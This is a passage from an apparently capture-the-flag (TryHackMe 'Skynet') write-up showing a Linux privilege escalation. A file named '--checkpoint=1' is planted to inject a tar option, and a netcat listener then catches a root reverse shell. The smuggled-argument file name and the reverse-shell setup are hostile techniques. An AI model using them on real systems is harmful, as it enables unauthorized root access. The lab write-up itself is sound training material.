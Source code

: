 ```
Listening on 0.0.0.0 4444
```
Finally, I executed the checkpoint, which called the shell script. 
```
www-data@skynet:/var/www/html$ touch "/var/www/html/--checkpoint=1"
touch "/var/www/html/--checkpoint=1"
```
My netcat listener picked up the call and I dropped into a shell with root privileges. 
```
ajread@aj-ubuntu:~/TryHackMe/$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.0.103 55152
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 /root/root.txt
```